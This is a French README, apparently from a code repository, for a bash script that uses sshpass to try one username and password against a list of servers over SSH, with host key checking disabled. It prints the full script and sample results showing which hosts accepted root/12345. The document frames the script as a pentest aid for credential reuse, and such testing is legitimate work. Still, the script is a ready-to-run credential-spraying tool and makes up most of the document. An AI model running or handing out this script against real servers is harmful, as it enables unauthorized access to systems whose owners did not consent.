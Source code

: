 # mass-connect-ssh
Ce script bash permet à un pentesteur de tester une paire identifiant/mdp sur un nombre illimité de serveurs. Ce script peut être exécuté dans le cadre d'un pentest. Quand un serveur est compromis, qu'un mot de passe et un identifiant sont découverts, il se peut que ces identifiants soient identiques sur d'autres serveurs.
Ce script permet donc d'automatiser des connexions ssh sur plusieurs serveurs.

1 - Paquets à installer : sshpass
      Ubuntu : sudo apt install sshpass
      CentOS : yum install sshpass
      
2 - Modifier les variables
      user="utilisateur_a_tester" (changer la valeur de cette variable et y insérer le nom d'utilisateur à tester)
      mdp="mot_de_passe_a_tester" (changer la valeur de cette variable et y insérer le mot de passe à tester)
      
3 - Ajouter les serveurs à tester
      Ajouter la liste de serveur à tester dans le tableau arr=()
      
5 - Résultats
      Les résultats sont stockés dans le fichier host.txt
      
6 - Exemple

    ./mass-connect-ssh.sh
    
      #!/bin/bash

      ## Author :	Proc3ssor
      ## Contact : jeanjestin@gmail.com

      arr=(
      serveur1.com
      serveur2.com
      serveur3.net
      exemple.net
      )
      length=${#arr[@]}
      user="root"
      mdp="12345"

      for ((i=0; i<$length; i++))
      do
      sshpass -p $mdp ssh -o ConnectTimeout=1 -o StrictHostKeyChecking=no -o GSSAPIAuthentication=no  $user@${arr[i]} "hostname" >> host.txt
      done

   host.txt
serveur2.com
exemple.net

Les serveurs "serveur2.com" et "exemple.net" ont pour identifiant de connexion : root/12345
